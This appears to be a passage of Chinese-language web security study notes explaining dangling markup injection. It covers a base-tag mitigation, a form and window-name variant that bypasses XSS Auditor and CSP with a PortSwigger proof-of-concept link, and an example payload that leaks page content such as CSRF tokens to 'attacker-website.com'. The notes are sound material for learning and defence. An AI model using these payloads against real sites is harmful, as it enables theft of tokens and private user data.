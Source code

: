
緩解措施
- 可以通過在任何可能的 inject 之前設置自己的 base tag 來防止 base tag 的 injection
- 這防止第二個 base tag 能夠覆蓋目標

如：
```html
<base target="_self" />
```

不使用 base tag 的 DOM-based dangling markup
- 一種技術，不用 base tag 也可繞過 XSS Auditor 和 CSP
- 想法是 inject 帶有 `target` 的 `form` 
- 當 `form` 被 `submit` 後，它又用一個正常的連結 post 到自己身上
- 這個第一次點擊設置了帶有 target 的 window name，然後你必須點擊連結來搜索 window name 中的資料，所以有兩次點擊而不是一次
- [Proof of concept](http://portswigger-labs.net/dangling_markup/?x=%3Cinput%20name=x%20type=hidden+form=x%20value=%22%26lt%3Ba%20href%3Dhttp%3A%2F%2Fsubdomain1.portswigger-labs.net%2Fdangling_markup%2Fname.html%26gt%3B%26lt%3Bfont%20size%3D100%20color%3Dred%26gt%3BYou%20must%20click%20me%26lt%3B%2Ffont%26gt%3B%26lt%3B%2Fa%26gt%3B%22%3E%3Cbutton%20form=x%3E%3Cfont%20size=100%20color=red%3EClick%20me%3C/font%3E%3C/button%3E%3Cform+id=x%20target=%22blah)

------------

## 什麼是 dangling markup injection ?
Dangling markup injection 是用在不可能進行完全 XSS 攻擊的情況下跨域獲取資料

假設 Application 以不安全的方式將攻擊者可控制的資料嵌入其 response 中：

```html
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```

假設 Application 沒有過濾或轉義 `>` 或 **`**
- 攻擊者可以使用下面的語法來跳出帶引號的 attribute 和包圍的 tag，並返回 HTML context

```
">
```

在這種情況下，攻擊者自然會試圖執行 XSS
- 但，假設由於 input filters、CSP 或其他障礙，常規的 XSS 是不可能的
- 在這情況，仍有可能用下面這樣的 payload 來進行 dangling markup injection

```
"><img src='//attacker-website.com?
```


這 payload 建立了 `img` tag，並定義了一個包含攻擊者 server 上的 URL 的 src 屬性的開始
- 注意，payload 沒有關閉 src 屬性，它是 `dangling` 的
- 當 browser 解析 response 時，它將向前看，直到遇到一個單引號來終止 attribute
- 在該字之前的所有內容都將被視為 URL 的一部分，並將 URL query string 送到攻擊者的 server
  - 任何非字母數字的字，包括 new line，都將是 URL encode 的


後果是
- 攻擊者可以在 inject point 之後獲取 Application 的部分 response
- 這可能包含敏感資料。根據 Application 的功能，這可能包括 CSRF tokens, email messages, or financial data
